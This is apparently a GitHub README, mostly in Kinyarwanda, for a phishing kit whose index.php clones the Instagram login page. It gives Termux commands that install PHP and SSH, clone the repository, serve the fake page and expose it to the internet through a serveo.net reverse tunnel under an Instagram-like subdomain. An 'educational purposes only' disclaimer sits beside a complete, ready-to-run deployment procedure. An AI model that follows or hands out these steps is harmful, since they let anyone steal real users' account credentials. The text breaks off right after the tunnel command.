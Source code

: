 # 2m_drill_hacking-attack-project

## DISCLAIMER

**Izi code ziri muri iri repository zerekana uburyo *phishing* ikora. Ntabwo zigomba gukoreshwa mu buryo bunyuranyije n’amategeko. Ukoresheje izi code nabi azabihanirwa n’amategeko y’u Rwanda ndetse n’andi mategeko mpuzamahanga.**

Iyi project ni iy’amasomo n’ubushakashatsi mu rwego rwo kwigisha uburyo bwo kwirinda *cyber attacks*.

---

## File Overview

### `index.php`  
Clone ya Instagram login page, ikoreshwa mu nyigisho zerekeranye na **phishing techniques**.

---

## UKO IRIKORESHWA  
**(For Educational Purposes Only)**

### 1. Shyira Termux muri Telefoni yawe (Android)

- [Download Termux kuri F-Droid](https://f-droid.org/en/packages/com.termux/)  
- [Download Termux kuri GitHub (Releases)](https://github.com/termux/termux-app/releases)

### 2. Fungura Termux, hanyuma ukore Setup

```bash
pkg update && pkg upgrade
termux-setup-storage
pkg install php
pkg install openssh
pkg install git
git clone https://github.com/2emdrill/2m_drill_hacking-attack-project.git drill
cd drill
php -S 0.0.0.0:8080
'''
3. FUNGURA INDI SESSION MURI TERMUX
```bash
ssh -R Instagramtwozero:80:localhost:8080 serveo.net
 
